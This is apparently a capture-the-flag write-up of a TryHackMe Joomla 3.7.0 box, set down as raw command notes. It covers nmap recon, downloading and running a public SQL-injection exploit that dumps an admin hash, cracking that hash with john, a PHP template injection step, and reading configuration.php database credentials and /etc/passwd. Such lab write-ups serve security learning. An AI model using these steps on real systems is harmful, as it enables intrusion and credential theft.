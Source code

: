 
# recon
```
└─$ nmap -Pn -sVC 10.10.76.21
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-15 12:55 GMT
Nmap scan report for 10.10.76.21 (10.10.76.21)
Host is up (0.089s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
|_  256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
|_http-title: Home
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/ 
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-generator: Joomla! - Open Source Content Management
3306/tcp open  mysql   MariaDB (unauthorized)
```

## joomla version
$ curl http://10.10.76.21/administrator/manifests/files/joomla.xml
```
<version>3.7.0</version>
```

```
eaa83fe8b963ab08ce9ab7d4a798de05=f0ur45j8djcnlif2gce6ustpo6
```

# exploit
└─$ wget  https://raw.githubusercontent.com/stefanlucas/Exploit-Joomla/master/joomblah.py 
└─$ python joomla_sql.py http://10.10.39.29/ 
```
2024-01-16 12:21:15 (9.06 MB/s) - ‘joomblah.py’ saved [6040/6040]
 [-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
  -  Extracting sessions from fb9j5_session

```

└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash         
```
spiderman123
```

## php injection in template index.php
# foothold
cat configuration.php
```
public $dbtype = 'mysqli';
public $host = 'localhost';
public $user = 'root';
public $password = 'nv5uz9r3ZEDzVjNu';
public $db = 'joomla';
```
sh-4.2$ cat /etc/passwd
```
jjameson:x:1000:1000:Jonah Jameson:/home/jjameson:/bin/bash
```

